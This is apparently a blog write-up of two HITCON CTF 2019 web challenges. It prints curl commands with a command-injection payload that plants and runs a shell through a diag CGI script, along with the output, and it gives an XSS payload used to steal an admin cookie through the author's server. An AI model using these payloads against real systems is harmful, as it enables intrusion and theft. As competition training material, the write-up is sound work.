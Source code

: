 ```yaml
---
layout : post
title : HITCON CTF 2019
---
```

HITCON CTF is a great hacking competition in CTF world.
I solved 2 web challanges of Orange. So here is writeup.
<h2>1. Virtual Public Network</h2>
I have read Orange's blog, I can understand that is a story of Orange when he hack VPN products.<br>
Note that <code>return $options if system("timeout -s 9 2 /usr/bin/tcpdump -d $options >/dev/null 2>&1") == 0;</code> and <code># backdoor :)</code> comment, we can see that our shell will be located at <code>./tmp/</code>.<br>
But when using Orange's payload, I can not get the output as expect. So I get a problem and should be redirect output to shell with `>` and read it with _curl_
Remember that it requires a $tpl parameter to get filename of shell<br>
<code>my $tpl = CGI::param("tpl");<br>
...
    $tpl = "./tmp/" . $tpl . ".thtml";<br>
    require($tpl);</code><br>
So I can create a final payload like this: <code>-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball</code> and urlencode it<br>
<code>curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x="ls%20/",exec\$x%23%202>./tmp/dragonball.thtml%20<&tpl=dragonball`</code>
</code>$READ_FLAG$
FLAG
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old</code><br>
Encode `$` to read flag `$READ_FLAG` because $ will be interpreted as bash variable in Perl language and I can get it like this `\x24`. Using `sh -c '[command]'` to read flag because it is a binary file.<br>
Finall payload: `-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`
`curl "http://13.231.137.9/cgi-bin/diag.cgi?options=-r\$x=\"sh%20-c%20'/\x5c\x24READ_FLAG\x5c\x24'\",exec\$x%23%202>./tmp/dragonball.thtml%20&tpl=dragonball`<br>
Flag: `hitcon{Now I'm sure u saw my Bl4ck H4t p4p3r :P}`<br>
Reference: 
<br><h2>Bounty Pl33z</h2>
This is a XSS challenge. When I click submit bugs it will redirects to `https://<?=$host;?>/oauth/authorize?client_id=1&scope=read&redirect_uri=https://twitter.com/orange_8361`<br>
So using <code>_${alert()}`-"-(`${`_</code> to trigger XSS, so setup a VPS and redirect challenge's network to get admin's cookie (=flag)

Thank you for a great CTF!
